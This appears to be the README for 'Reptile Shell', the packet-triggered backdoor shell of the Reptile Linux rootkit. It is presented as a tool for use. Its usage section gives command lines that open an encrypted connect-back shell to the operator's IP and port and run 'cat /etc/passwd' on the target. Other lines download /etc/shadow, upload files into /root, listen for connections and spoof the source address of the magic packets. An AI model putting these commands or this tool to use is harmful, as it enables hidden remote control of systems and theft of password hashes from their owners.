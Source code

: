 # Reptile Shell

This shell is a user-mode-helper called by Reptile Kernel Module when is triggered with a magic ICMP/TCP/UDP packet. Based on Tiny SHell by Christophe Devine. Thanks Christophe! ;)

## Features

- Full TTY/PTY encrypted shell
- Download/Upload files
- Run standalone commands
- Loop to connect back each X times (not default)

## Usage

- To send magic packets and get a shell:
```
./reptile_client -t <target IP> -x <magic packet protocol> -l <your IP> -p <your port>
```
- To run standalone command (pay attention on quotes):
```
./reptile_client -t <target IP> -x <magic packet protocol> -l <your IP> -p <your port> -a "cat /etc/passwd" 
```
- To download/upload a file (pay attention on quotes):
```
./reptile_client -t <target IP> -x <magic packet protocol> -l <your IP> -p <your port> -a "get /etc/shadow /tmp"
./reptile_client -t <target IP> -x <magic packet protocol> -l <your IP> -p <your port> -a "put file.txt /root"
```
- To just stay listening connections:
```
./reptile_client -x listen -p <your port>
```
- If you wanna spoof the source IP address of magic packets, use: `-s <spoof IP>`
